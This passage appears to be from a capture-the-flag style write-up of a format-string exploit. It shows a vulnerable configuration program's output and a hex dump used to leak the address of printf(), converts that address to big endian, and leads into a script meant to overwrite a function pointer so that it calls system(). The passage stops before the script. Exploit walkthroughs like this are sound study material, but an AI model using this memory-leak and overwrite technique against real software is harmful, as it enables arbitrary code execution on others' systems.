 ```
You can:
    login <login-message>    set the login message
    exit <exit-message>      set the exit message
    prompt <prompt>          set the command prompt
Config action: Exit message set!
,,,▒▒h
,▒h
,h
,
,,Config action: Command unrecognized.
You can:
    login <login-message>    set the login message
    exit <exit-message>      set the exit message
    prompt <prompt>          set the command prompt
Config action: Command unrecognized.
You can:
    login <login-message>    set the login message
    exit <exit-message>      set the exit message
    prompt <prompt>          set the command prompt
Config action:

```

In Terminal 2:

```
$ cat out.txt | xxd | tee hex.txt
0000000: 436f 6e66 6967 2061 6374 696f 6e3a 2043  Config action: C
0000010: 6f6d 6d61 6e64 2075 6e72 6563 6f67 6e69  ommand unrecogni
...
...
0000b80: 6d65 7373 6167 6520 7365 7421 0a7f 2c2c  message set!..,,
0000b90: 2cf0 ec05 9cb3 7f2c ec05 9cb3 7f2c 059c  ,......,.....,..
0000ba0: b37f 2c9c b37f 2cb3 7f2c 436f 6e66 6967  ..,...,..,Config
...
$
```

Now we have the hex value for the location of ```printf()```. It should be between 2 comma's, hex value 0x2c, and should be between 4 and 6 bytes long. Any missing bytes are null bytes. We just need to convert it to big endian and add relevant null bytes if applicable. For this run the following values are acquired.

Address in Little Endian from the hex.txt file:
```
f0 ec05 9cb3 7f
```
As a big endian hex value:
```
0x7fb39c05ecf0
```

The address contains 6 bytes. 64 bit programs only use 48 bit addresses at the current time, so the other 2 bytes are guaranteed to be zeros. We will write them anyway. Now we used the following python script to calculate a format string that will overwrite address of ```system()``` using the relevant offset and location of ```printf()```. It is explained below.
